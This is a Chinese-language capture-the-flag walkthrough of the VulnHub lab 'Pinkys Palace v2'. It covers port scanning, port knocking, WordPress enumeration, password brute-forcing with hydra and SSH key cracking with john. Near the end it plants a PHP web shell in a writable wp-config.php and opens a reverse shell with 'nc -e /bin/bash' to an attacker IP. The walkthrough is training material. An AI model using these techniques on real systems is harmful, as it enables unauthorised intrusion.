# Pinkys Palace v2

> https://download.vulnhub.com/pinkyspalace/Pinkys-Palace2.zip

靶场IP：


扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -sV -p 1-65535 192.168.32.182
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 04:34 EDT
Nmap scan report for 192.168.32.182
Host is up (0.000068s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
4655/tcp  filtered unknown
7654/tcp  filtered unknown
31337/tcp filtered Elite
MAC Address: 00:0C:29:D4:C9:B0 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.36 seconds
                                                               
```

需要配置本地hosts

```
┌──(root💀kali)-[~/Desktop]
└─# cat /etc/hosts
192.168.32.182 pinkydb
```



再次刷新


爆破web目录找到一个`secret`目录



访问bambam.txt，得到一串数字



判断要使用端口敲门，需要调整端口顺序，测试的正确顺序是：`7000,666,8890`

```
┌──(root💀kali)-[~/Desktop]
└─# knock 192.168.32.182  7000 666  8890
```

端口开启了



IP访问会403



要使用域名



获取用户名

```
┌──(root💀kali)-[~/Desktop]
└─# wpscan --url http://pinkydb -eu

[i] User(s) Identified:

[+] pinky1337
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

生成密码字典

```
┌──(root💀kali)-[/tmp]
└─# cewl -d 1 -w /tmp/words.txt http://pinkydb
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# cat words.txt | wc -l                     
157

```

爆破用户密码：`pinky/Passione`

```
┌──(root💀kali)-[/tmp]
└─#  hydra -L user.txt -P /tmp/words.txt -s 7654 pinkydb http-post-form '/login.php:user=^USER^&pass=^PASS^:F=Invalid'                                                                                                                 255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-20 06:01:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 314 login tries (l:2/p:157), ~20 tries per task
[DATA] attacking http-post-form://pinkydb:7654/login.php:user=^USER^&pass=^PASS^:F=Invalid
[7654][http-post-form] host: pinkydb   login: pinky   password: Passione
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-20 06:01:37

```





根据提示ssh用户是`stefano`



但是发现证书需要密码

提取证书哈希

```
┌──(root💀kali)-[~/Downloads]
└─# python /usr/share/john/ssh2john.py id_rsa 
id_rsa:$sshng$1$16$BAC2C72352E75C879E2F26CC61A5B6E7$1200$972c9d97dc224ef52b94ced25c12a03043f9b422bbd1171eeb98bdb2beebc479969bdd6ecddd86601812a8644888f2cf8497518bc1f2448cfed6d7f614fa01be48d697e5b244fa68568bd77c48cbea556f6a4e96d5e34eb9a1818ca4fef1e685242eb6775a33b843367aaa4f72c569f29bb0ccff10efbcd8a592bd20e528df18aea6fe11ae704418f623682d652c5468ce5bd4b684e7450d100ab8d8b9a2fb1184358815a835ce59327d60aa106a43fa04eff7dfe1e1a1b46da2d4b76c7157fdb3293a641585140d70aa56f6560bf9327e411f1dbb1882e8ee8eb2673cb102e734da82419eb83906d96efd3cb1f000d5651ef40d5037abefd4a229f1242bc7df374acce833a8747dadd8f98623ba369d10ce0fff6966a0ae28f91aa0698c212d698d86c715d043c7e535e95832f75c8c7bd9ae35bcacac14d278726a5bb4fa71672e71c7ead32f004ea8a9e23120e3ba8890fbc944eb19fcf44fb951250eca41f783407f8a18a8226cb8bad1758a41a9d19ab0a230b2a789d2c28dcb72aac821966e603e9ab3c3c0ae3d0dc4a8f5881d8a033da93b324e927e965a0be1d045ab8c6d0ab2e5cacff584ed53566a46076a32c5bb8276b0c294e213670047e016f429b2fe7f9c5a80ef9fe71e4ab4f5abcd408cbd6b2854a6c0b5a32a22a02471112afdf348ca011333862809d0e543b03993d7faa41519b6be089dac64c7729ddf4766b70c0f6f47e022c63be545820aacdd752fa48713e00af1f5f54893786ce977809c23a18f97fd4361782676ea3dd910cc13491c29eb13c465e3299097a945cbf86f19698312d6e872474d1c61fdbc5db6919b8d98629144e7d8379a662580fdfcbdd122f702f941835688de52dfc0183be34bc4217cd4700d4c13607494988933e1f42df20d9ba77122c40fc41fd2175741e8044b4fcde69c96a249441a565992b9e148f9d61a2aca60d37e14b91c0c12e976a237e497c9f5db640a8730e4e57a060db06b18a46317201d682be38b952c198a6131434e368d57b883167492edd087fbad98651fdd17fb2ac9e0e36b52b7ab9a55b957c4ed4944fac8fc046de5bec28cf04166d21751bb4f174fe6c34ab4b55647ffd0568d3bef02230f941bc5c26ba318a4be040d64ad3cfa604ad889fa0a4c84955accfb1f5a785e7d580f4b2a7c5b66d934b3b038fec75069c38297c2ab80a117cbeb517a85540a872695f07e9768908aba3f16d918527b7da93bbfcc358c826ad673e4eb54b745c76067f61043a48a1abc85e717a731cad299cb45c7e1a5f7d50cc8d557bd12979e1633d9aa2c747351665984051e85990aaeca2ed0b1e84eb9169184a1ad3d6c73bb882e88a271fb97a567a0a9760a2d24d8e98567e622a8bff784dd6de6c43fcc20ee059a2e1501c0a9d84c17525c1063c8c8f37f55624029900df5b8d35fa78190c3b00daaca298cde9b2883e9a7c1557426e083b0e519952e7ffe1c9d739cea00c02b8fbabe97300b8027255b017e08ce9966a362995ed339839103648fe529b46f2e0bb543c1c7781417cff8848ed4b20332d2dd7f5ff7a8c6c342ca9b7475ed66cd8ff380af6c9d823df1ef4eb1b7d097d75ae6688a7317b46c3163bc7f211d1510773f7c709385733ba29e2ad0c71c0893eb84f221c2b33e7476ac246b262e5cb2fce7bad9cd87c76461d3dc5c534245
```

```
┌──(root💀kali)-[~/Downloads]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
secretz101       (id_rsa)
1g 0:00:00:06 DONE (2022-07-20 06:09) 0.1569g/s 2251Kp/s 2251Kc/s 2251KC/sa6_123..*7¡Vamos!
Session completed

```

SSH登录成功

```
┌──(root💀kali)-[~/Downloads]
└─# ssh -i id_rsa stefano@192.168.32.182  -p4655             
Enter passphrase for key 'id_rsa': 
Linux Pinkys-Palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar 17 21:18:01 2018 from 172.19.19.2
stefano@Pinkys-Palace:~$ 

```

我们探索一下 Stefano 的主目录，看看是否能找到一些有趣的东西。

```
stefano@Pinkys-Palace:~$ ls -al
total 32
drwxr-xr-x 4 stefano stefano 4096 Mar 17  2018 .
drwxr-xr-x 5 root    root    4096 Mar 17  2018 ..
-rw------- 1 stefano stefano  273 Mar 17  2018 .bash_history
-rw-r--r-- 1 stefano stefano  220 May 15  2017 .bash_logout
-rw-r--r-- 1 stefano stefano 3526 May 15  2017 .bashrc
-rw-r--r-- 1 stefano stefano  675 May 15  2017 .profile
drwx------ 2 stefano stefano 4096 Mar 17  2018 .ssh
drwxr-xr-x 2 stefano stefano 4096 Mar 17  2018 tools
stefano@Pinkys-Palace:~$ cd tools/
stefano@Pinkys-Palace:~/tools$ ls -al
total 28
drwxr-xr-x 2 stefano stefano   4096 Mar 17  2018 .
drwxr-xr-x 4 stefano stefano   4096 Mar 17  2018 ..
-rw-r--r-- 1 stefano stefano     65 Mar 16  2018 note.txt
-rwsr----x 1 pinky   www-data 13384 Mar 16  2018 qsub

```

所以我们有一个用户拥有的 SUID 二进制文件，`pinky`它可能（可能）是可利用的。唯一的问题是我们没有文件的读取权限。但是`www-data`团子有！也许我们可以找到一种方法以 user 的身份生成 shell `www-data`。

让我们前往网络服务器根目录，看看是否有任何可写的目录或文件：

```
stefano@Pinkys-Palace:/var/www/html/apache$ ls -al
total 8580
drwxr-xr-x  7 www-data www-data    4096 Mar 17  2018 .
drwxr-xr-x  4 www-data www-data    4096 Mar 17  2018 ..
-rw-r--r--  1 root     root         235 Mar 14  2018 .htaccess
-rw-r--r--  1 root     root         418 Mar 17  2018 index.php
-rw-r--r--  1 root     root     8565525 Feb  6  2018 latest.tar.gz
-rw-r--r--  1 root     root       19935 Mar 17  2018 license.txt
-rw-r--r--  1 root     root        7413 Mar 17  2018 readme.html
drwxr-xr-x  2 root     root        4096 Mar 17  2018 secret
drwxr-xr-x  5 nobody   nogroup     4096 Feb  6  2018 wordpress
-rw-r--r--  1 root     root        5434 Mar 17  2018 wp-activate.php
drwxr-xr-x  9 root     root        4096 Mar 17  2018 wp-admin
-rw-r--r--  1 root     root         364 Mar 17  2018 wp-blog-header.php
-rw-r--r--  1 root     root        1627 Mar 17  2018 wp-comments-post.php
-rw-rw-rw-  1 www-data www-data    3135 Mar 17  2018 wp-config.php
-rw-r--r--  1 root     root        2853 Mar 17  2018 wp-config-sample.php
drwxr-xr-x  4 root     root        4096 Mar 17  2018 wp-content
-rw-r--r--  1 root     root        3669 Mar 17  2018 wp-cron.php
drwxr-xr-x 18 root     root       12288 Mar 17  2018 wp-includes
-rw-r--r--  1 root     root        2422 Mar 17  2018 wp-links-opml.php
-rw-r--r--  1 root     root        3306 Mar 17  2018 wp-load.php
-rw-r--r--  1 root     root       36583 Mar 17  2018 wp-login.php
-rw-r--r--  1 root     root        8048 Mar 17  2018 wp-mail.php
-rw-r--r--  1 root     root       16246 Mar 17  2018 wp-settings.php
-rw-r--r--  1 root     root       30071 Mar 17  2018 wp-signup.php
-rw-r--r--  1 root     root        4620 Mar 17  2018 wp-trackback.php
-rw-r--r--  1 root     root        3065 Mar 17  2018 xmlrpc.php

```

所以`wp-config.php`文件是可写的。`<?php`我们将在我们选择的文本编辑器中打开并通过在开始标记下面直接添加以下内容来注入一个简单的 PHP shell ：

```
passthru($_GET['cmd']);
```



设置一个监听器并`nc -e /bin/bash 10.0.10.10 1337`用作我们的`cmd`值：




